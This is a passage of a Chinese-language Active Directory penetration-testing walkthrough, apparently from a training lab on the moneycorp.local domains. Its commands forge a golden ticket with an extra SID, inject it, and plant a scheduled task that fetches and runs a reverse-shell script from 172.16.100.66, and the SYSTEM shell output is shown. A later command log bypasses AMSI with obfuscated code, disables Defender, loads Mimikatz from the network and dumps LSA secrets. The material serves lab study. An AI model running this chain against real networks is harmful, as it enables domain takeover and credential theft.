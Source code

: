 Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\krbtgt_tkt.kirbi"'
```

下面命令把TGT注入到mimikatz中
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\krbtgt_tkt.kirbi"'
```

使用下面两个命令之一验证上面操作是否成功
```
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local
```
或者
```
ls \\mcorp-dc.moneycorp.local\c$
```

利用上面已经取得的权限，为mcorp-dc添加一个定时任务
```
schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

触发定时任务
```
schtasks /Run /S mcorp-dc.moneycorp.local /TN "User366"
```

收到反弹shell
```
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> hostname
mcorp-dc
PS C:\Windows\system32>
```


## 父域到子域

枚举子域的计算机
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Get-NetComputer -Domain us.dollarcorp.moneycorp.local
us-dc.us.dollarcorp.moneycorp.local
```

枚举子域DC上的分享文件盘
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Invoke-ShareFinder -ComputerName us-dc.us.dollarcorp.moneycorp.local
\\us-dc.us.dollarcorp.moneycorp.local\ADMIN$    - Remote Admin
\\us-dc.us.dollarcorp.moneycorp.local\C$        - Default share
\\us-dc.us.dollarcorp.moneycorp.local\IPC$      - Remote IPC
\\us-dc.us.dollarcorp.moneycorp.local\NETLOGON  - Logon server share
\\us-dc.us.dollarcorp.moneycorp.local\SYSVOL    - Logon server share
```


与子域的信任信息
```
Domain: US.DOLLARCORP.MONEYCORP.LOCAL (us / S-1-5-21-3146393536-1393405867-2905981701)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> US.DOLLARCORP.MONEYCORP.LOCAL

[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
